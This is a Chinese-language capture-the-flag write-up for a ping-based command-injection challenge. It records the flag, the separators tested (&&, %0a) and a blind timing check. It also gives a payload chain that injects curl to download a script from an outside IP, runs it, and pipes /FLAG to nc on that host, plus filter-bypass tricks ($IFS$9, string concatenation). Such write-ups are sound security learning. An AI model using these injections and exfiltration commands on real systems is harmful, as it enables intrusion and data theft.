


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  

2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
  

3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，直接在burpsuite中修改数据内容为`127.0.0.1 %0a cat /FLAG`  

4. 由于没有回显，如何将文件数据传出来是个问题，考虑`curl`将数据传出来，由于本人没有服务器，没有实测以下载荷  
```
第一步：ping 127.0.0.1 %0a curl 47.111.236.9/1.sh > /tmp/1.sh
第二步：ping 127.0.0.1 %0a chmod 777 /tmp/1.sh
第二步：ping 127.0.0.1 %0a sh /tmp/1.sh
1.sh内容：cat /FLAG | nc 47.111.236.9 9090
```


## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=he;d=llo;$a$b ${c}${d}`为cat hello
- 字符串截取，substr